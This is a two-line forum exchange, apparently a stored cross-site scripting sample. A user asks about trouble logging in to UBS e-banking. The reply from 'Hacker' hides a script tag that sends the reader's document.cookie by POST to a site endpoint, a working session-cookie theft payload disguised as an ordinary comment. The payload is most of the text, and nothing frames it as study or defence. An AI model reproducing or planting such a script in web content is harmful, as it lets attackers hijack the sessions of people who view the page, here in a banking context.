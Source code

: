 Hans: Hi all I have a problem with loggin in to my e-banking of UBS. Does anybody else face the same issue?

Hacker: Yes me to <script> fetch('/article/fetch/post/user', {   method: 'POST',   headers: {     'Content-Type': 'application/json;charset=utf-8'   },   body: JSON.stringify(document.cookie) });</script>

